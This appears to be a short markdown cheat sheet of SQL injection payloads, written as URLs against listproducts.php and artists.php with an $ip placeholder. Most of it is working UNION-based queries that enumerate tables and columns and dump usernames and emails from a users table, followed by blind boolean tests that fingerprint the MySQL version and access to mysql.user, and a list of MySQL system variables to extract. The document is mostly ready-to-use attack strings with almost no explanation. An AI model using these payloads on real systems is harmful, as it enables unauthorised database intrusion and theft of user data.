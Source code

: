 ### Enumerate Tables

```
http://$ip/listproducts.php?cat=1 -1 union all select 1,2,3,4,5,6,7,8,table_name,10,11 from information_schema.tables
```

### Enumerate columns

```
http://$ip/artists.php?artist=1 -1 union select all 1,2,column_name,4 from information_schema.columns where table_schema='database' and table_name='table_name' LIMIT 1,1 -- - LIMIT 1
```

### Enumerate RAW data

```
http://$ip/listproducts.php?cat=1 union select all 1,2,3,4,5,6,group_concat(uname,0x10a,email),8,9,10,11 FROM users
```

### Confirm MYSQL version - If Returns true then end value is true

```
http://$ip/listproducts.php?cat=1 and substring(@@version,1,1)=4
http://$ip/listproducts.php?cat=1 and substring(@@version,1,1)=5 
```

### Test if subset works - If returns True then subset works

```
http://$ip/listproducts.php?cat=1 and (select 1)=1
```

### Test if subset works, test for mysql.user - If returns True then subset works

```
http://$ip/listproducts.php?cat=1 and (select 1 from mysql.user limit 0,1)=1
```

### Injection

```
@@hostname                             
@@tmpdir
@@datadir
@@basedir
@@log
@@log_bin                                                                
@@log_error                                                          
@@binlog_format                       
@@time_format                                                    
@@date_format                                                    
@@ft_boolean_syntax                                           
@@innodb_log_group_home_dir                                            
@@new                                                                  
@@version                                                              
@@version_comment
@@version_compile_os
@@version_compile_machine
@@GLOBAL.have_symlink
@@GLOBAL.have_ssl
@@GLOBAL.VERSION

```